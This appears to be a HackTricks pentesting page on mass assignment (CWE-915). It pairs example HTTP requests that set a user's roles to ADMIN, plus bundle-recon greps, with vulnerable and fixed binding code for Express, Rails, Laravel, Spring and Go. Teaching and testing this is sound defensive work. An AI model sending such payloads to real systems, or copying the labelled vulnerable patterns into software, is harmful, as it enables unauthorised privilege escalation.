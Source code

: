 # Mass Assignment (CWE-915) – Privilege Escalation via Unsafe Model Binding

{{#include ../banners/hacktricks-training.md}}

Mass assignment (a.k.a. insecure object binding) happens when an API/controller takes user-supplied JSON and directly binds it to a server-side model/entity without an explicit allow-list of fields. If privileged properties like roles, isAdmin, status, or ownership fields are bindable, any authenticated user can escalate privileges or tamper with protected state.

This is a Broken Access Control issue (OWASP A01:2021) that often enables vertical privilege escalation by setting roles=ADMIN or similar. It commonly affects frameworks that support automatic binding of request bodies to data models (Rails, Laravel/Eloquent, Django ORM, Spring/Jackson, Express/Mongoose, Sequelize, Go structs, etc.).

## 1) Finding Mass Assignment

Look for self-service endpoints that update your own profile or similar resources:
- PUT/PATCH /api/users/{id}
- PATCH /me, PUT /profile
- PUT /api/orders/{id}

Heuristics indicating mass assignment:
- The response echoes server-managed fields (e.g., roles, status, isAdmin, permissions) even when you didn’t send them.
- Client bundles contain role names/IDs or other privileged attribute names used throughout the app (admin, staff, moderator, internal flags), hinting bindable schema.
- Backend serializers accept unknown fields without rejecting them.

Quick test flow:
1) Perform a normal update with only safe fields and observe the full JSON response structure (this leaks the schema).
2) Repeat the update including a crafted privileged field in the body. If the response persists the change, you likely have mass assignment.

Example baseline update revealing schema:
```http
PUT /api/users/12934 HTTP/1.1
Host: target.example
Content-Type: application/json

{
  "id": 12934,
  "email": "user@example.com",
  "firstName": "Sam",
  "lastName": "Curry"
}
```
Response hints at privileged fields:
```http
HTTP/1.1 200 OK
Content-Type: application/json

{
  "id": 12934,
  "email": "user@example.com",
  "firstName": "Sam",
  "lastName": "Curry",
  "roles": null,
  "status": "ACTIVATED",
  "filters": []
}
```


## 2) Exploitation – Role Escalation via Mass Assignment

Once you know the bindable shape, include the privileged property in the same request.

Example: set roles to ADMIN on your own user resource:
```http
PUT /api/users/12934 HTTP/1.1
Host: target.example
Content-Type: application/json

{
  "id": 12934,
  "email": "user@example.com",
  "firstName": "Sam",
  "lastName": "Curry",
  "roles": [
    { "id": 1, "description": "ADMIN role", "name": "ADMIN" }
  ]
}
```
If the response persists the role change, re-authenticate or refresh tokens/claims so the app issues an admin-context session and shows privileged UI/endpoints.

Notes
- Role identifiers and shapes are frequently enumerated from the client JS bundle or API docs. Search for strings like "roles", "ADMIN", "STAFF", or numeric role IDs.
- If tokens contain claims (e.g., JWT roles), a logout/login or token refresh is usually required to realize the new privileges.


## 3) Client Bundle Recon for Schema and Role IDs

- Inspect minified JS bundles for role strings and model names; source maps may reveal DTO shapes.
- Look for arrays/maps of roles, permissions, or feature flags. Build payloads matching the exact property names and nesting.
- Typical indicators: role name constants, dropdown option lists, validation schemas.

Handy greps against a downloaded bundle:
```bash
strings app.*.js | grep -iE "role|admin|isAdmin|permission|status" | sort -u
```


## 4) Framework Pitfalls and Secure Patterns

The vulnerability arises when frameworks bind req.body directly onto persistent entities. Below are common mistakes and minimal, secure patterns.

**Node.js (Express + Mongoose)**

Vulnerable:
```js
// Any field in req.body (including roles/isAdmin) is persisted
app.put('/api/users/:id', async (req, res) => {
  const user = await User.findByIdAndUpdate(req.params.id, req.body, { new: true });
  res.json(user);
});
```
Fix:
```js
// Strict allow-list and explicit authZ for role-changing
app.put('/api/users/:id', async (req, res) => {
  const allowed = (({ firstName, lastName, nickName }) => ({ firstName, lastName, nickName }))(req.body);
  const user = await User.findOneAndUpdate({ _id: req.params.id, owner: req.user.id }, allowed, { new: true });
  res.json(user);
});
// Implement a separate admin-only endpoint for role updates with server-side RBAC checks.
```

**Ruby on Rails**

Vulnerable (no strong parameters):
```rb
def update
  @user.update(params[:user]) # roles/is_admin can be set by client
end
```
Fix (strong params + no privileged fields):
```rb
def user_params
  params.require(:user).permit(:first_name, :last_name, :nick_name)
end
```

**Laravel (Eloquent)**

Vulnerable:
```php
protected $guarded = []; // Everything mass-assignable (bad)
```
Fix:
```php
protected $fillable = ['first_name','last_name','nick_name']; // No roles/is_admin
```

**Spring Boot (Jackson)**

Vulnerable pattern:
```java
// Directly binding to entity and persisting it
public User update(@PathVariable Long id, @RequestBody User u) { return repo.save(u); }
```
Fix: Map to a DTO with only allowed fields and enforce authorization:
```java
record UserUpdateDTO(String firstName, String lastName, String nickName) {}
```
Then copy allowed fields from DTO to the entity server-side, and handle role changes only in admin-only handlers after RBAC checks. Use @JsonIgnore on privileged fields if necessary and reject unknown properties.

Go (encoding/json)
- Ensure privileged fields use json:"-" and validate with a DTO struct that includes only allowed fields.
- Consider decoder.DisallowUnknownFields() and post-bind validation of invariants (roles cannot change in self-service routes).

## References

- [FIA Driver Categorisation: Admin Takeover via Mass Assignment of roles (Full PoC)](https://ian.sh/fia)
- [OWASP Top 10 – Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
- [CWE-915: Improperly Controlled Modification of Dynamically-Determined Object Attributes](https://cwe.mitre.org/data/definitions/915.html)

{{#include ../banners/hacktricks-training.md}}
